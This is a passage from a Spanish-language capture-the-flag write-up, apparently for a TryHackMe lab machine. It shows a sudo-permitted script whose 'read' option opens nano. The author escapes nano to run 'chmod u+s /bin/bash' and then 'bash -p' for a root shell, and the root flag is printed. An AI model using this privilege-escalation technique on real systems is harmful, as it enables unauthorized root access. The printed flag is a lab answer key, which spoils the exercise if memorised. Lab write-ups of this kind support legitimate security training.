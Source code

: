 ```bash
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
mike@gallery:/var/backups/mike_home_backup$ 
```
Este es el script de bash
```bash
mike@gallery:/var/backups/mike_home_backup$ cat /opt/rootkit.sh 
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
mike@gallery:/var/backups/mike_home_backup$ 
```
Ya veo una via atraves de la cual ejecutar comandos, en el modo read, abre un archivo con nano, bueno en nano podemos ejecutar comandos solamente tenemos que presionar **ctrl + r** y **ctrl + x**, y despues poner el comando que queramos ejecutar.

Ejecutemos el script y pongamos read en el argumento que nos pide el script

```bash
mike@gallery:/var/backups/mike_home_backup$ sudo /bin/bash /opt/rootkit.sh 
Would you like to versioncheck, update, list or read the report ? read
```
Nos abre el archivo presionemos **control + r** y **control + x**, le voy asignar el privelegio suid a la bash para poder lanzarmela temporamente como el propietario, solo es ejecutar **chmod u+s /bin/bash**, para poder ejecutar este comando previamente tenemos que ejeuctar las dos combinaciones de teclas que mencione anteriormente.

ejecutamos bash -p para que nos de la consola como  el propietario que es root, y hay podemos visualizar la flag.
```bash
mike@gallery:/var/backups/mike_home_backup$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt 
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
bash-4.4# 
```
Gracias  por leer
